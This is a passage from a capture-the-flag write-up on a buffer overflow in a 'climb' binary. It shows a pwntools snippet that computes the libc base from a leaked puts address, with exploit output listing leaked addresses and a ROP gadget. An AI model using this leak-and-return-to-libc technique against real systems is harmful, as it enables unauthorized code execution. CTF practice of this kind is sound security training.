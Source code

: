 ![libc](public/images/libc_version_climb.png)


From above, libc version was `libc6_2.27-3ubuntu1_amd64` and got a shell after buffer was overflowed.

One thing to remember about the address of the function like `system`, `puts`, `printf` etc.,inside the libc is, it just shift the address a bit from the `libc base` address. So by subracting puts leak address with actual address of `puts` from `libc` I got the base address of the libc.

### Getting base address of libc
```bash
libc.address = leak - libc.sym["puts"]
log.info("Base address of libc: %s " % hex(libc.address))
```
**Output: -**

```bash
❯ python3 part1_exploit.py
[+] Opening connection to cha.hackpack.club on port 41702: Done
[*] '/home/gr4n173/climb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/gr4n173/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 16 cached gadgets for './climb'
[*] puts@plt: 0x40050c
[*] __libc_start_main: 0x601018
[*] pop rdi gadget: 0x400743
[*] rdi: 0x4004fe
[*] Leaked libc address, Puts: 0x7f03f04ea9c0
[*] Base address of libc: 0x7f03f046a000
```
